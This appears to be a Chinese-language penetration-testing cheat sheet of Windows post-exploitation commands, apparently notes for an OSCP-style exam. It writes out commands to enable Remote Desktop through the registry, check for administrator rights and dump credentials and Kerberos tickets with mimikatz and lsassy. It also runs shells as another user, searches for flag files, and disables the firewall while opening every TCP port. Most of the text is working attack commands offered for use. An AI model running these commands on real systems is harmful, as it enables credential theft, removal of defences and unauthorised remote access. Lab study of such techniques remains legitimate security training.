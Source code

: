 
##### 打开远程桌面 (Administrator 权限)
```powershell
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f 
```

##### 确认该用户是否是管理员权限
```powershell
$user = [Security.Principal.WindowsIdentity]::GetCurrent();(New-Object Security.Principal.WindowsPrincipal($user)).IsInRole([Security.Principal.WindowsBuiltInRole]::Administrator)
```

##### 转储凭据信息
- mimikatz.exe
https://github.com/ParrotSec/mimikatz  (有更多转储凭据的命令)
```bash
.\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit  (需要高权限)
.\mimikatz.exe "privilege::debug" "sekurlsa::tickets" exit
```
- **lsassy** 
https://github.com/login-securite/lsassy
```bash
lsassy -d MS01.oscp.exam -u administrator -p December31 192.168.244.153
```

##### 在 cmd 中以其他用户身份执行 cmd 命令
```powershell
runas /user:dave2 cmd
runas /user:dave2 "powershell -Command Start-Process powershell -Verb RunAs"   (运行dave2的管理员powershell)
```

##### 搜索文件
```powershell
dir C:\ /s /b /A:-D | findstr /i "local.txt"
```

##### 关闭防火墙
```powershell
netsh advfirewall set allprofiles state off
netsh advfirewall firewall add rule name="Open All Ports" dir=in action=allow protocol=TCP localport=0-65535
```